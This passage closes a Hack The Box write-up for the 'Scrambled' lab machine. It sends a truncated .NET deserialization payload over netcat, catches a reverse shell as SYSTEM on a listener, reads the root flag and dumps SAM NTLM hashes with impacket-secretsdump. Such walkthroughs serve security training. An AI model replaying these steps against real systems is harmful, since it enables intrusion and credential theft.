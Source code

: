 In another terminal connect to the sales app and send our payload:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -v scrm.local 4411
scrm.local [10.10.11.168] 4411 (?) open
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2Vj <SNIP> VhSaFVISnZkbWxrWlhJK0N3PT0L
ERROR_GENERAL;Error deserializing sales order: Exception has been thrown by the target of an invocation.
```

## Shell As Administrator

Switch back to our netcat to see we're connected as NT SYSTEM:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.168] 57419
whoami
nt authority\system
PS C:\Windows\system32> 
```

## Root Flag

Grab the root flag to finish the box:

```powershell
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
7968cb704022fe52d68181ce56e77ade
```

Grab the hashes for extra fun using SecretsDump:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x33d8cbadba9e3f89bd60e5bfe64743e3
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ebb16eb3b0b1d0bea029cab7d18e534c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

I enjoyed this box. It gave plenty of opportunities to use our investigation skills. Playing with Impacket and Kerberos is always fun too.

Another box done. See you next time.
